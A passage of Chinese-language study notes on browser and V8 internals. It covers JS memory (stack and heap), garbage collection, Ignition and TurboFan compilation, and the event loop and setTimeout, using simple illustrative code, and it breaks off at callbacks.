   不过这个设计也是一种缺陷，因为在实际工作中，并不希望函数执行上下文中的 this 默认指向全局对象，因为这样会打破数据的边界，造成一些误操作。如果要让函数执行上下文中的 this 指向某个对象，最好的方式是通过 call 方法来显示调用。

   这个问题可以通过设置 JS 的 “严格模式” 来解决。**在严格模式下，默认执行一个函数，其函数的执行上下文中的 this 值是 undefined**，这就解决上面的问题了。

## 四. V8 工作原理

### 4.1 数据储存：栈空间和堆空间

```js
function foo() {
  var a = 1;
  var b = a;
  a = 2;
  console.log(a);
  console.log(b);
}
foo();
```

```js
function foo() {
  var a = { name: '极客时间' };
  var b = a;
  a.name = '极客邦';
  console.log(a);
  console.log(b);
}
foo();
```

执行第一段代码，打印出来 a 的值是 2，b 的值是 1。接着，再执行第二段代码，会发现，仅仅改变了 a 中 name 的属性值，但是最终 a 和 b 打印出来的值都是 {name: "极客邦"}。这就和预期的不一致了，因为想改变的仅仅是 a 的内容，但 b 的内容也同时被改变了。要彻底弄清楚这个问题，就得先从 “JS 是什么类型的语言” 讲起。

**在使用之前就需要确认其变量数据类型的称为静态语言**。相反地，把**在运行过程中需要检查数据类型的语言称为动态语言**。JS 就是动态语言，因为在声明变量之前并不需要确认其数据类型。

在 C 语言中，可以把其他类型数据赋予给一个声明好的变量，如：

```c
int a = 1;
bool c = true;
c = a;
```

这里把 int 型的变量 a 赋值给了 bool 型的变量 c，这段代码也是可以编译执行的，因为在赋值过程中，C 编译器会把 int 型的变量悄悄转换为 bool 型的变量，通常把这种**偷偷转换的操作称为隐式类型转换。而支持隐式类型转换的语言称为弱类型语言，不支持隐式类型转换的语言称为强类型语言**。在这点上，C 和 JS 都是弱类型语言。


**JS 是一种弱类型的、动态的语言**：

- **弱类型**：意味着不需要告诉 JS 引擎这个或那个变量是什么数据类型，JS 引擎在运行代码的时候自己会计算出来。
- **动态**：意味着可以使用同一个变量保存不同类型的数据。

**内存空间**
要理解 JS 在运行过程中数据是如何存储的，得先搞清楚其存储空间的种类：


在 JS 的执行过程中，**主要有三种类型内存空间，分别是代码空间、栈空间和堆空间**。其中的代码空间主要是存储可执行代码的。

这里的栈空间就是之前反复提及的调用栈，是用来存储执行上下文的。看下面这段代码：

```js
function foo() {
  var a = '极客时间';
  var b = a;
  var c = { name: '极客时间' };
  var d = c;
}
foo();
```

当执行一段代码时，需要先编译，并创建执行上下文，然后再按照顺序执行代码。那当执行到第 3 行代码时，其调用栈的状态，可以参考下面这张调用栈状态图：



从图中可以看出来，当执行到第 3 行时，变量 a 和变量 b 的值都被保存在执行上下文中，而执行上下文又被压入到栈中，所以也可以认为变量 a 和变量 b 的值都是存放在栈中的。

继续执行第 4 行代码，由于 JS 引擎判断右边的值是一个引用类型，这时候处理的情况就不一样了，JS 引擎并不是直接将该对象存放到变量环境中，而是将它分配到堆空间里面，分配后该对象会有一个在 “堆” 中的地址，然后再将该数据的地址写进 c 的变量值，最终分配好内存的示意图如下所示：


对象类型是存放在堆空间的，在栈空间中只是保留了对象的引用地址，当 JS 需要访问该数据的时候，是通过栈中的引用地址来访问的，相当于多了一道转手流程。

从上可以知道**原始类型的数据值都是直接保存在 “栈” 中的，引用类型的值是存放在 “堆” 中的**。为什么一定要分 “堆” 和 “栈” 两个存储空间呢？这是因为 JS 引擎需要用栈来维护程序执行期间上下文的状态，如果所有的数据都存放在栈空间里，那么会影响到上下文切换的效率，进而又影响到整个程序的执行效率。

比如文中的 foo 函数执行结束了，JS 引擎需要离开当前的执行上下文，只需要将指针下移到上个执行上下文的地址就可以了，foo 函数执行上下文栈区空间全部回收，具体过程可以参考下图：


所以**通常情况下，栈空间都不会设置太大，主要用来存放一些原始类型的小数据**。而引用类型的数据占用的空间都比较大，所以这一类数据会被存放到堆中，**堆空间很大，能存放很多大的数据**，不过缺点是分配内存和回收内存都会占用一定的时间。

在 JS 中，赋值操作和其他语言有很大的不同，**原始类型的赋值会完整复制变量值，而引用类型的赋值是复制引用地址**。

### 4.2 垃圾自动回收

有些数据被使用之后，可能就不再需要了，这种数据被称为**垃圾数据**。如果这些垃圾数据一直保存在内存中，那么内存会越用越多，所以需要**对垃圾数据进行回收，以释放有限的内存空间**。

#### 4.2.1 不同语言的垃圾回收策略

通常情况下，垃圾数据回收分为以下两种策略：

- **手动回收**

  如 C/C++ 就是使用手动回收策略，何时分配内存、何时销毁内存都是由代码控制的：

  ```c++
   // 在堆中分配内存
   char* p =  (char*)malloc(2048);  // 在堆空间中分配2048字节的空间，并将分配后的引用地址保存到p中
   //使用p指向的内存
   {
      //....
   }
   //使用结束后，销毁这段内存
   free(p)；
   p = NULL；
  ```

  从上面这段 C 代码可以看出来，要使用堆中的一块空间，需要先调用 mallco 函数分配内存，然后再使用；当不再需要这块数据的时候，就要手动调用 free 函数来释放内存。如果这段数据已经不再需要了，但是又没有主动调用 free 函数来销毁，那么这种情况就被称为**内存泄漏**。

- **自动回收**

  如 JS、Java、Python 等语言，**产生的垃圾数据是由垃圾回收器来释放**的，并不需要手动通过代码来释放。

**调用栈中的数据是如何回收的**
通过一段示例代码的执行流程来分析其回收机制：

```js
function foo() {
  var a = 1;
  var b = { name: '极客邦' };
  function showName() {
    var c = 2;
    var d = { name: '极客时间' };
  }
  showName();
}
foo();
```

当执行到第 6 行代码时，其调用栈和堆空间状态图如下所示：


如果执行到 showName 函数时，那么 JS 引擎会创建 showName 函数的执行上下文，并将 showName 函数的执行上下文压入到调用栈中，最终执行到 showName 函数时，其调用栈就如上图所示。与此同时，还**有一个记录当前执行状态的指针（称为 ESP）**，指向调用栈中 showName 函数的执行上下文，表示当前正在执行 showName 函数。

接着，当 showName 函数执行完成之后，函数执行流程就进入了 foo 函数，这时就需要销毁 showName 函数的执行上下文了。ESP 这时候就帮上忙了，JS 会将 ESP 下移到 foo 函数的执行上下文，**这个下移操作就是销毁 showName 函数执行上下文的过程**。具体可以看下面这张移动 ESP 前后的对比图：


从图中可以看出，当 showName 函数执行结束之后，ESP 向下移动到 foo 函数的执行上下文中，上面 showName 的执行上下文虽然保存在栈内存中，但是已经是无效内存了。比如当 foo 函数再次调用另外一个函数时，这块内容会被直接覆盖掉，用来存放另外一个函数的执行上下文。

所以，**当一个函数执行结束之后，JS 引擎会通过向下移动 ESP 来销毁该函数保存在栈中的执行上下文**。

当上面那段代码的 foo 函数执行结束之后，ESP 是指向全局执行上下文的，那这样的话，showName 函数和 foo 函数的执行上下文就处于无效状态了，不过保存在堆中的两个对象依然占用着空间，**要回收堆中的垃圾数据，就需要用到 JS 中的垃圾回收器了**。

#### 4.2.2 代际假说和分代收集

**代际假说**（The Generational Hypothesis）的内容，这是垃圾回收领域中一个重要的术语，后续垃圾回收的策略都是建立在该假说的基础之上的。代际假说有以下两个特点：

- 大部分对象在内存中存在的时间很短，简单来说，就是很多对象一经分配内存，很快就变得不可访问；
- 不死的对象，会活得更久。

其实这两个特点不仅仅适用于 JS，同样适用于大多数的动态语言，如 Java、Python 等。

通常，垃圾回收算法有很多种，但是并没有哪一种能胜任所有的场景，需要权衡各种场景，根据对象的生存周期的不同而使用不同的算法，以便达到最好的效果。所以，在 V8 中会把堆分为**新生代**和**老生代**两个区域，**新生代中存放的是生存时间短的对象，老生代中存放的生存时间久的对象**。

新生区通常只支持 1 ～ 8M 的容量，而老生区支持的容量就大很多了。对于这两块区域，V8 分别使用两个不同的垃圾回收器，以便更高效地实施垃圾回收。

- **副垃圾回收器，主要负责新生代的垃圾回收**。
- **主垃圾回收器，主要负责老生代的垃圾回收**。

#### 4.2.3 垃圾回收器的工作流程

**不论什么类型的垃圾回收器，它们都有一套共同的执行流程**。

1. 第一步是标记空间中活动对象和非活动对象。所谓活动对象就是还在使用的对象，非活动对象就是可以进行垃圾回收的对象。
2. 第二步是回收非活动对象所占据的内存。其实就是在所有的标记完成之后，统一清理内存中所有被标记为可回收的对象。
3. 第三步是做内存整理。一般来说，频繁回收对象后，内存中就会存在大量不连续空间，这些不连续的内存空间称为**内存碎片**。当内存中出现了大量的内存碎片之后，如果需要分配较大连续内存的时候，就有可能出现内存不足的情况。所以最后一步需要整理这些内存碎片，但这步其实是可选的，因为有的垃圾回收器不会产生内存碎片，比如副垃圾回收器。

**副垃圾回收器**
副垃圾回收器主要负责新生区的垃圾回收。而通常情况下，大多数小的对象都会被分配到新生区，所以说这个区域虽然不大，但是垃圾回收还是比较频繁的。

新生代中用 Scavenge 算法来处理。所谓 Scavenge 算法，是把新生代空间对半划分为两个区域，一半是对象区域，一半是空闲区域，如下图所示：


新加入的对象都会存放到对象区域，当对象区域快被写满时，就需要执行一次垃圾清理操作。

在垃圾回收过程中，首先要对对象区域中的垃圾做标记；标记完成之后，就进入垃圾清理阶段，副垃圾回收器会把这些存活的对象复制到空闲区域中，同时它还会把这些对象有序地排列起来，所以这个复制过程，也就相当于完成了内存整理操作，复制后空闲区域就没有内存碎片了。

完成复制后，对象区域与空闲区域进行角色翻转，也就是原来的对象区域变成空闲区域，原来的空闲区域变成了对象区域。这样就完成了垃圾对象的回收操作，同时**这种角色翻转的操作还能让新生代中的这两块区域无限重复使用下去**。

由于新生代中采用的 Scavenge 算法，所以每次执行清理操作时，都需要将存活的对象从对象区域复制到空闲区域。但复制操作需要时间成本，如果新生区空间设置得太大了，那么每次清理的时间就会过久，所以**为了执行效率，一般新生区的空间会被设置得比较小**。

也正是因为新生区的空间不大，所以很容易被存活的对象装满整个区域。为了解决这个问题，JS 引擎采用了**对象晋升策略**，也就是经过两次垃圾回收依然还存活的对象，会被移动到老生区中。

**主垃圾回收器**
主垃圾回收器主要负责老生区中的垃圾回收。除了新生区中晋升的对象，一些大的对象会直接被分配到老生区。因此老生区中的对象有两个特点：

- 对象占用空间大。
- 对象存活时间长。

由于老生区的对象比较大，若要在老生区中使用 Scavenge 算法进行垃圾回收，复制这些大的对象将会花费比较多的时间，从而导致回收执行效率不高，同时还会浪费一半的空间。因而，主垃圾回收器是采用**标记 - 清除**（Mark-Sweep）的算法进行垃圾回收的。

1. 首先是标记过程阶段。标记阶段就是从一组根元素开始，递归遍历这组根元素，在这个遍历过程中，能找到引用的元素称为**活动对象**，没有引用的元素就可以判断为**垃圾数据**。

2. 接下来就是垃圾的清除过程。它和副垃圾回收器的垃圾清除过程完全不同，可以理解这个过程是清除掉红色标记数据的过程，可参考下图大致理解下其清除过程：

   

上面的标记过程和清除过程就是标记 - 清除算法，不过对一块内存多次执行标记 - 清除算法后，会产生大量不连续的内存碎片。而碎片过多会导致大对象无法分配到足够的连续内存，于是又产生了另外一种算法——**标记 - 整理**（Mark-Compact），这个标记过程仍然与标记 - 清除算法里的是一样的，但后续步骤不是直接对可回收对象进行清理，而是让所有存活的对象都向一端移动，然后直接清理掉端边界以外的内存。


**全停顿**
由于 JS 是运行在主线程之上的，一旦执行垃圾回收算法，都需要将正在执行的 JS 脚本暂停下来，待垃圾回收完毕后再恢复脚本执行。这种行为被叫做**全停顿**（Stop-The-World）。

比如堆中的数据有 1.5GB，V8 实现一次完整的垃圾回收需要 1 秒以上的时间，这也是由于垃圾回收而引起 JS 线程暂停执行的时间，若是这样的时间花销，那么应用的性能和响应能力都会直线下降。主垃圾回收器执行一次完整的垃圾回收流程如下图所示：


在 V8 新生代的垃圾回收中，因其空间较小，且存活对象较少，所以全停顿的影响不大，但老生代就不一样了。如果在执行垃圾回收的过程中，占用主线程时间过久，就像上面图片展示的那样，花费了 200 毫秒，在这 200 毫秒内，主线程是不能做其他事情的。比如页面正在执行一个 JS 动画，因为垃圾回收器在工作，就会导致这个动画在这 200 毫秒内无法执行的，这将会造成页面的卡顿现象。

**为了降低老生代的垃圾回收而造成的卡顿，V8 将标记过程分为一个个的子标记过程，同时让垃圾回收标记和 JS 应用逻辑交替进行**，直到标记阶段完成，这个算法被称为**增量标记（Incremental Marking）算法**。如下图所示：


使用增量标记算法，可以把一个完整的垃圾回收任务拆分为很多小的任务，这些小的任务执行时间比较短，可以穿插在其他的 JS 任务中间执行。

### 4.3 编译器和解释器

要深入理解 V8 的工作原理，需要搞清楚一些概念和原理，比如**编译器**（Compiler）、**解释器**（Interpreter）、**抽象语法树**（AST）、**字节码**（Bytecode）、**即时编译器**（JIT）等概念。

之所以存在**编译器和解释器，是因为机器不能直接理解代码**，所以在执行程序之前，需要将写的代码 “翻译” 成机器能读懂的机器语言。按语言的执行流程，可以把语言划分为**编译型语言**和**解释型语言**。

**编译型语言在程序执行之前，需要经过编译器的编译过程，并且编译之后会直接保留机器能读懂的二进制文件，这样每次运行程序时，都可以直接运行该二进制文件，而不需要再次重新编译了**。比如 C/C++、GO 等都是编译型语言。

**而由解释型语言编写的程序，在每次运行时都需要通过解释器对程序进行动态解释和执行**。比如 Python、JS 等都属于解释型语言。



从图中可以看出这二者的执行流程，大致可阐述为如下：

1. 在编译型语言的编译过程中，编译器首先会依次对源代码进行词法分析、语法分析，生成抽象语法树（AST），然后是优化代码，最后再生成处理器能够理解的机器码。如果编译成功，将会生成一个可执行的文件。但如果编译过程发生了语法或者其他的错误，那么编译器就会抛出异常，最后的二进制文件也不会生成成功。

2. 在解释型语言的解释过程中，同样解释器也会对源代码进行词法分析、语法分析，并生成抽象语法树（AST），不过它会再基于抽象语法树生成字节码，最后再根据字节码来执行程序、输出结果。

#### 4.3.1 V8 是如何执行一段 JS 代码的


从图中可以清楚地看到，V8 在执行过程中既有解释器 Ignition，又有编译器 TurboFan，按照上图来一一分解其执行流程：

1. **生成抽象语法树（AST）和执行上下文**

   首先将源代码转换为抽象语法树（AST），并生成执行上下文（主要是代码在执行过程中的环境信息）。

   高级语言是开发者可以理解的语言，但是让编译器或者解释器来理解就非常困难了。对于编译器或者解释器来说，它们可以理解的就是 AST 了。所以无论使用的是解释型语言还是编译型语言，在编译过程中，它们都会生成一个 AST。这和渲染引擎将 HTML 格式文件转换为计算机可以理解的 DOM 树的情况类似。

   ```js
   var myName = '极客时间';
   function foo() {
     return 23;
   }
   myName = 'geektime';
   foo();
   ```

   这段代码经过 [javascript-ast](https://resources.jointjs.com/demos/javascript-ast) 站点处理后，生成的 AST 结构如下：

   

   从图中可以看出，AST 的结构和代码的结构非常相似，其实也可以把 AST 看成代码的结构化的表示，编译器或者解释器后续的工作都需要依赖于 AST，而不是源代码。

   AST 是非常重要的一种数据结构，在很多项目中有着广泛的应用。其中最著名的一个项目是 Babel。Babel 是一个被广泛使用的代码转码器，可以将 ES6 代码转为 ES5 代码，这意味着用 ES6 编写程序，而不用担心现有环境是否支持 ES6。**Babel 的工作原理就是先将 ES6 源码转换为 AST，然后再将 ES6 语法的 AST 转换为 ES5 语法的 AST，最后利用 ES5 的 AST 生成 JS 源代码**。

   除了 Babel 外，还有 ESLint 也使用 AST。**ESLint 是一个用来检查 JS 编写规范的插件，其检测流程也是需要将源码转换为 AST，然后再利用 AST 来检查代码规范化的问题**。

   通常，生成 AST 需要经过两个阶段：

   1. **第一阶段是分词（tokenize），又称为词法分析**，其作用是将一行行的源码拆解成一个个 token。所谓 token，指的是语法上不可能再分的、最小的单个字符或字符串。

      

   2. **第二阶段是解析（parse），又称为语法分析**，其作用是将上一步生成的 token 数据，根据语法规则转为 AST。如果源码符合语法规则，这一步就会顺利完成。但如果源码存在语法错误，这一步就会终止，并抛出一个 “语法错误”。

2. **生成字节码**

   有了 AST 和执行上下文后，那接下来的第二步，解释器 Ignition 就登场了，它会根据 AST 生成字节码，并解释执行字节码。

   其实一开始 V8 并没有字节码，而是直接将 AST 转换为机器码，由于执行机器码的效率是非常高效的，所以这种方式在发布后的一段时间内运行效果是非常好的。但是随着 Chrome 在手机上的广泛普及，内存占用问题也暴露出来了，因为 V8 需要消耗大量的内存来存放转换后的机器码。为了解决内存占用问题，V8 团队大幅重构了引擎架构，引入字节码，并且抛弃了之前的编译器，最终花了将进四年的时间，实现了现在的这套架构。

   **字节码就是介于 AST 和机器码之间的一种代码。但是与特定类型的机器码无关，字节码需要通过解释器将其转换为机器码后才能执行**。

   

   从图中可以看出，机器码所占用的空间远远超过了字节码，所以使用字节码可以减少系统的内存使用。

3. **执行代码**

   通常，如果有一段第一次执行的字节码，解释器 Ignition 会逐条解释执行。解释器 Ignition 除了负责生成字节码之外，它还有另外一个作用，就是解释执行字节码。在 Ignition 执行字节码的过程中，如果发现有热点代码（HotSpot），比如**一段代码被重复执行多次，这种就称为热点代码**，那么后台的编译器 TurboFan 就会把该段热点的字节码编译为高效的机器码，然后当再次执行这段被优化的代码时，只需要执行编译后的机器码就可以了，这样就大大提升了代码的执行效率。

   V8 的解释器和编译器的取名也很有意思。解释器 Ignition 是点火器的意思，编译器 TurboFan 是涡轮增压的意思，寓意着代码启动时通过点火器慢慢发动，一旦启动，涡轮增压介入，其执行效率随着执行时间越来越高效率，因为热点代码都被编译器 TurboFan 转换了机器码，直接执行机器码就省去了字节码 “翻译” 为机器码的过程。

   Java 和 Python 的虚拟机也都是基于字节码配合解释器和编译器实现的，这种技术被称为**即时编译**（JIT）。具体到 V8，就是指解释器 Ignition 在解释执行字节码的同时，收集代码信息，当它发现某一部分代码变热了之后，TurboFan 编译器便闪亮登场，把热点的字节码转换为机器码，并把转换后的机器码保存起来，以备下次使用。

   

#### 4.3.2 JS 的性能优化

对于优化 JS 执行效率，应该将优化的中心聚焦在单次脚本的执行时间和脚本的网络下载上，主要关注以下三点内容：

- 提升单次脚本的执行速度，避免 JS 的长任务霸占主线程，这样可以使得页面快速响应交互。
- 避免大的内联脚本，因为在解析 HTML 的过程中，解析和编译也会占用主线程。
- 减少 JS 文件的容量，因为更小的文件会提升下载速度，并且占用更低的内存。

## 五. 浏览器中的页面循环系统

### 5.1 消息队列和事件循环

浏览器每个渲染进程都有一个主线程，并且主线程非常繁忙，既要处理 DOM，又要计算样式，还要处理布局，同时还需要处理 JS 任务以及各种输入事件。要让这么多不同类型的任务在主线程中有条不紊地执行，这就需要一个系统来统筹调度这些任务，这个统筹调度系统就是**消息队列和事件循环系统**。

#### 5.1.1 使用单线程处理安排好的任务

比如有如下一系列的任务：

- 任务 1：1+2
- 任务 2：20/5
- 任务 3：7\*8
- 任务 4：打印出任务 1、任务 2、任务 3 的运算结果

现在要在一个线程中去执行这些任务，通常会这样编写代码：

```c++
void MainThread(){
  int num1 = 1+2; //任务1
  int num2 = 20/5; //任务2
  int num3 = 7*8; //任务3
  print("最终计算的值为:%d,%d,%d",num1,num2,num3)； //任务4
}
```

在上面的执行代码中，把所有任务代码按照顺序写进主线程里，等线程执行时，这些任务会按照顺序在线程中依次被执行；等所有任务执行完成之后，线程会自动退出。可以参考下图来直观地理解下其执行过程：


#### 5.1.2 在线程运行过程中处理新任务

但并不是所有的任务都是在执行之前统一安排好的，大部分情况下，新的任务是在线程运行过程中产生的。比如在线程执行过程中，又接收到了一个新的任务要求计算 “10+2”，那上面那种方式就无法处理这种情况了。

**要想在线程运行过程中，能接收并执行新的任务，就需要采用事件循环机制**。可以通过一个 for 循环语句来监听是否有新的任务：

```c++
// GetInput
// 等待用户从键盘输入一个数字，并返回该输入的数字
int GetInput() {
  int input_number = 0;
  cout<<"请输入一个数:";
  cin>>input_number;
  return input_number;
}

// 主线程(Main Thread)
void MainThread() {
  for(;;){
    int first_num = GetInput()；
    int second_num = GetInput()；
    result_num = first_num + second_num;
    print("最终计算的值为:%d",result_num)；
  }
}
```

相较于第一版的线程，这一版的线程做了两点改进：

1. **引入了循环机制**，具体实现方式是在线程语句最后添加了一个 for 循环语句，线程会一直循环执行。
2. **引入了事件**，可以在线程运行过程中，等待用户输入的数字，等待过程中线程处于暂停状态，一旦接收到用户输入的信息，那么线程会被激活，然后执行相加运算，最后输出结果。



#### 5.1.3 处理其他线程发送过来的任务

在第二版的线程模型中，所有的任务都是来自于线程内部的，如果另外一个线程想让主线程执行一个任务，利用第二版的线程模型是无法做到的。


从上图可以看出，渲染主线程会频繁接收到来自于 IO 线程的一些任务，接收到这些任务之后，渲染进程就需要着手处理。这需要设计一个线程模型，能让其能够接收其他线程发送的消息，一个通用模式是使用**消息队列**。


从图中可以看出，**消息队列是一种数据结构，可以存放要执行的任务**。它符合队列 “先进先出” 的特点，也就是说要**添加任务的话，添加到队列的尾部；要取出任务的话，从队列头部去取**。

有了队列之后，就可以继续改造线程模型了，改造方案如下图所示：


从上图可以看出，改造可以分为下面三个步骤：

1. 添加一个消息队列；
2. IO 线程中产生的新任务添加进消息队列尾部；
3. 渲染主线程会循环地从消息队列头部中读取任务，执行任务。

接下来就可以按步骤使用代码来实现第三版的线程模型。

首先，构造一个队列。只是构造队列的接口：

```c++
class TaskQueue{
  public:
  Task takeTask(); // 取出队列头部的一个任务
  void pushTask(Task task); // 添加一个任务到队列尾部
};
```

接下来，改造主线程，让主线程从队列中读取任务：

```c++
TaskQueue task_queue；
void ProcessTask();
void MainThread(){
  for(;;){
    Task task = task_queue.takeTask();
    ProcessTask(task);
  }
}
```

在上面的代码中，添加了一个消息队列的对象，然后在主线程的 for 循环代码块中，从消息队列中读取一个任务，然后执行该任务，主线程就这样一直循环往下执行，因此只要消息队列中有任务，主线程就会去执行。

主线程的代码就这样改造完成了。这样改造后，主线程执行的任务都全部从消息队列中获取。所以如果有其他线程想要发送任务让主线程去执行，只需要将任务添加到该消息队列中就可以了，添加任务的代码如下：

```c++
Task clickTask;
task_queue.pushTask(clickTask)
```

#### 5.1.4 处理其他进程发送过来的任务

通过使用消息队列，实现了线程之间的消息通信。在 Chrome 中，跨进程之间的任务也是频繁发生的，那么如何处理其他进程发送过来的任务？可以参考下图：


从图中可以看出，**渲染进程专门有一个 IO 线程用来接收其他进程传进来的消息**，接收到消息之后，会将这些消息组装成任务发送给渲染主线程，后续的步骤就和前面 “处理其他线程发送的任务” 一样了。

**消息队列中的任务类型**
消息队列中的任务类型有哪些。可以参考下 [Chromium 的官方源码](https://source.chromium.org/chromium/chromium/src/+/master:third_party/blink/public/platform/task_type.h)，这里面包含了很多内部消息类型，如输入事件（鼠标滚动、点击、移动）、微任务、文件读写、WebSocket、JS 定时器等等。

除此之外，消息队列中还包含了很多与页面相关的事件，如 JS 执行、解析 DOM、样式计算、布局计算、CSS 动画等。

以上这些事件都是在主线程中执行的，所以在编写 Web 应用时，还需要衡量这些事件所占用的时长，并想办法解决单个任务占用主线程过久的问题。

#### 5.1.5 如何安全退出

当页面主线程执行完成之后，该如何保证页面主线程能够安全退出呢？Chrome 是这样解决的，确定要退出当前页面时，页面主线程会设置一个退出标志的变量，在每次执行完一个任务时，判断是否有设置退出标志。

如果设置了，那么就直接中断当前的所有任务，退出线程，可以参考下面代码：

```c++
TaskQueue task_queue；
void ProcessTask();
bool keep_running = true;
void MainThread(){
  for(;;){
    Task task = task_queue.takeTask();
    ProcessTask(task);
    if(!keep_running) // 如果设置了退出标志，那么直接退出线程循环
        break;
  }
}
```

#### 5.1.6 页面使用单线程的缺点

页面线程所有执行的任务都来自于消息队列。消息队列是 “先进先出” 的属性，也就是说放入队列中的任务，需要等待前面的任务被执行完，才会被执行。鉴于这个属性，就有如下两个问题需要解决：

1. **如何处理高优先级的任务**

   比如一个典型的场景是监控 DOM 节点的变化情况（节点的插入、修改、删除等动态变化），然后根据这些变化来处理相应的业务逻辑。一个通用的设计的是，利用 JS 设计一套监听接口，当变化发生时，渲染引擎同步调用这些接口，这是一个典型的观察者模式。

   不过这个模式有个问题，因为 DOM 变化非常频繁，如果每次发生变化的时候，都直接调用相应的 JS 接口，那么这个当前的任务执行时间会被拉长，从而导致执行效率的下降。

   如果将这些 DOM 变化做成异步的消息事件，添加到消息队列的尾部，那么又会影响到监控的实时性，因为在添加到消息队列的过程中，可能前面就有很多任务在排队了。

   这也就是说，如果 DOM 发生变化，采用同步通知的方式，会影响当前任务的执行效率；如果采用异步方式，又会影响到监控的实时性。

   针对这种情况，微任务就应用而生了，下面来看看**微任务是如何权衡效率和实时性的**。

   通常把**消息队列中的任务称为宏任务，每个宏任务中都包含了一个微任务队列**，在执行宏任务的过程中，如果 DOM 有变化，那么就会将该变化添加到微任务列表中，这样就不会影响到宏任务的继续执行，因此也就解决了执行效率的问题。

   等宏任务中的主要功能都直接完成之后，这时候，渲染引擎并不着急去执行下一个宏任务，而是执行当前宏任务中的微任务，因为 DOM 变化的事件都保存在这些微任务队列中，这样也就解决了实时性问题。

2. **如何解决单个任务执行时长过久的问题**

   因为所有的任务都是在单线程中执行的，所以每次只能执行一个任务，而其他任务就都处于等待状态。如果其中一个任务执行时间过久，那么下一个任务就要等待很长时间。

   比如有个 JS 任务因执行时间过久，占用了动画单帧的时间，这样会给用户制造了卡顿的感觉，这是极不好的用户体验。针对这种情况，**JS 可以通过回调功能来规避这种问题，也就是让要执行的 JS 任务滞后执行**。

**浏览器页面是如何运行的**
可以打开开发者工具，点击 Performance 标签，选择左上角的 “start porfiling and load page” 来记录整个页面加载过程中的事件执行情况，如下图所示：


从图中可以看出，点击展开了 Main 这个项目，其记录了主线程执行过程中的所有任务。图中灰色的就是一个个任务，每个任务下面还有子任务，其中的 Parse HTML 任务，是把 HTML 解析为 DOM 的任务。

> **注意**：在执行 Parse HTML 的时候，如果遇到 JS 脚本，那么会暂停当前的 HTML 解析而去执行 JS 脚本。

### 5.2 浏览器如何实现 setTimeout

要了解定时器的工作原理，就需要知道事件循环系统，渲染进程中所有运行在主线程上的任务都需要先添加到消息队列，然后事件循环系统再按照顺序执行消息队列中的任务。

而通过定时器设置回调函数有点特别，它们需要在指定的时间间隔内被调用，但消息队列中的任务是按照顺序执行的，所以为了保证回调函数能在指定时间内执行，不能将定时器的回调函数直接添加到消息队列中。

**在 Chrome 中除了正常使用的消息队列之外，还有另外一个消息队列，这个队列中维护了需要延迟执行的任务列表，包括了定时器和 Chromium 内部一些需要延迟执行的任务**。所以当通过 JS 创建一个定时器时，渲染进程会将该定时器的回调任务添加到延迟队列中。

可以参考 [Chromium 中关于队列部分的源码](https://source.chromium.org/chromium/chromium/src/+/master:base/task/sequence_manager/task_queue_impl.h)。源码中延迟执行队列的定义如下所示：

```c++
DelayedIncomingQueue delayed_incoming_queue;
```

当通过 JS 调用 setTimeout 设置回调函数的时候，渲染进程将会创建一个回调任务，包含了回调函数 showName、当前发起时间、延迟执行时间，其模拟代码如下所示：

```c++
struct DelayTask{
  int64 id；
  CallBackFunction cbf;
  int start_time;
  int delay_time;
};
DelayTask timerTask;
timerTask.cbf = showName;
timerTask.start_time = getCurrentTime(); // 获取当前时间
timerTask.delay_time = 200; // 设置延迟执行时间
```

创建好回调任务之后，再将该任务添加到延迟执行队列中，代码如下所示：

```c++
delayed_incoming_queue.push(timerTask)；
```

现在通过定时器发起的任务就被保存到延迟队列中了。现在完善消息循环的代码，在其中加入执行延迟队列的代码，如下所示：

```c++
void ProcessTimerTask(){
  // 从delayed_incoming_queue中取出已经到期的定时器任务
  // 依次执行这些任务
}

TaskQueue task_queue；
void ProcessTask();
bool keep_running = true;
void MainTherad(){
  for(;;){
    // 执行消息队列中的任务
    Task task = task_queue.takeTask();
    ProcessTask(task);

    // 执行延迟队列中的任务
    ProcessDelayTask()

    if(!keep_running) // 如果设置了退出标志，那么直接退出线程循环
        break;
  }
}
```

从上面代码可以看出来，添加了一个 ProcessDelayTask 函数，该函数是专门用来处理延迟执行任务的。这里要重点关注它的执行时机，在上段代码中，处理完消息队列中的一个任务之后，就开始执行 ProcessDelayTask 函数。ProcessDelayTask 函数会根据发起时间和延迟时间计算出到期的任务，然后依次执行这些到期的任务。等到期的任务执行完成之后，再继续下一个循环过程。通过这样的方式，一个完整的定时器就实现了。

设置一个定时器，JS 引擎会返回一个定时器的 ID。那通常情况下，当一个定时器的任务还没有被执行的时候，也是可以取消的，具体方法是调用 clearTimeout 函数，并传入需要取消的定时器的 ID。

其实浏览器内部实现取消定时器的操作也是非常简单的，就是直接从 delayed_incoming_queue 延迟队列中，通过 ID 查找到对应的任务，然后再将其从队列中删除掉就可以了。

#### 5.2.1 使用 setTimeout 的注意事项

1. 如果当前任务执行时间过久，会影响定时器任务的执行。

2. 如果 setTimeout 存在嵌套调用，那么系统会设置最短时间间隔为 4 毫秒。

   也就是说在定时器函数里面嵌套调用定时器，也会延长定时器的执行时间。这是因为**在 Chrome 中，定时器被嵌套调用 5 次以上，系统会判断该函数方法被阻塞了，如果定时器的调用时间间隔小于 4 毫秒，那么浏览器会将每次调用的时间间隔设置为 4 毫秒**。所以，一些实时性较高的需求就不太适合使用 setTimeout 了。

3. 未激活的页面，setTimeout 执行最小间隔是 1000 毫秒

   如果标签不是当前的激活标签，那么定时器最小的时间间隔是 1000 毫秒，目的是为了**优化后台页面的加载损耗以及降低耗电量**。

4. 延时执行时间有最大值

   Chrome、Safari、Firefox 都是以 32 个 bit 来存储延时值的，32bit 最大只能存放的数字是 2147483647 毫秒，这就意味着，如果 setTimeout 设置的延迟值大于 2147483647 毫秒（大约 24.8 天）时就会溢出，那么相当于延时值被设置为 0 了，这导致定时器会被立即执行。可以运行下面这段代码：

   ```js
   function showName() {
     console.log('极客时间');
   }
   let timerID = setTimeout(showName, 2147483648); //会被理解调用执行
   ```

### 5.3 浏览器如何实现 XMLHttpRequest

XMLHttpRequest 提供了从 Web 服务器获取数据的能力。在深入了解 XMLHttpRequest 之前，需要先了解**同步回调**和**异步回调**这两个概念，这会帮助更加深刻地理解 WebAPI 是怎么工作的。

#### 5.3.1 回调函数 VS 系统调用栈

将一个函数作为参数传递给另外一个函数，那作为参数的这个函数就是**回调函数**：

```js
let callback = function () {
  console.log('i am do homework');
};
function doWork(cb) {
  console.log('start do work');
  cb();
  console.log('end do work');
}
doWork(callback);
```

在上面示例代码中，将一个匿名函数赋值给变量 callback，同时将 callback 作为参数传递给了 doWork() 函数，这时在函数 doWork() 中 callback 就是回调函数。

